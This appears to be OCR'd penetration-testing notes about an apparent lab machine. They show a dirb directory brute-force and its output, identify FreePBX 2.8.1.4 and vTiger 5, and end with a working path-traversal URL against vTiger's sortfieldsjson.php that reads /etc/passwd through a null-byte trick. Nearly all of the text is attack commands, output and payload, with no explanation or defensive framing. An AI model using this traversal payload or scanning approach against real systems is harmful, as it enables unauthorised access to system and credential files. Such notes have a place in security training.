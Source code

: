 dirb -r <http://target> /usr/share/dirb/wordlists/big.txt
---
/admin
/icons/
/mailman/admin/
/pipermail/
/mailman/confirm/
/configs/
/help
/images
/lang
/libs
/mail
/modules
/panel
/recordings
/robots.txt
/static
/themes
/var
/vtigercrm

/admin
Running FreePBX 2.8.1.4

/vtigercrm
Running vTiger 5
<https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00>